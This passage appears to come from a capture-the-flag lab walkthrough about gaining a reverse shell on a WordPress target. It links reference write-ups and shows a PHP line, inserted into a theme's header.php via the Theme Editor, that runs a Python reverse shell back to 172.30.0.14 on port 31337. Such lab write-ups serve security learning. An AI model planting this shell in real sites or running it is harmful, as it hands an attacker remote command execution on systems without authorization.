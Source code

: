 ### Reverse Shell Exploit (via Wordpress)

Let's try to get a shell. We can upload a WordPress theme that has a reverse-shell functionality

> Reference: Wordpress Reverse Shell Writeups
- https://amonsec.net/ctf/btrsys-v2-ctf-walkthrough
- https://webcache.googleusercontent.com/search?q=cache:rz9-9kV7CHYJ:https://k4r4koyun.com/tips/wordpress-reverse-shell-without-file-uploads-and-metasploit/+&cd=3&hl=en&ct=clnk&gl=sg&client=opera
- https://forum.top-hat-sec.com/index.php?topic=5758.0
- https://alexandervoidstar.wordpress.com/2017/01/08/ctf-writeup-mr-robot-1/
- https://securitybytes.io/vulnhub-com-mr-robot-1-ctf-walkthrough-7d4800fc605a


First go to **Theme Editor > Edit Themes**.

![screenshot2.png](screenshot2.png)

Here, we are going to edit `header.php`. We will replace the page header with a reverse shell code as follows. 

	<?php echo shell_exec(`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.30.0.14",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`);?>

(The connection IP address is set to our local machine `172.30.0.14` at port `31337`)
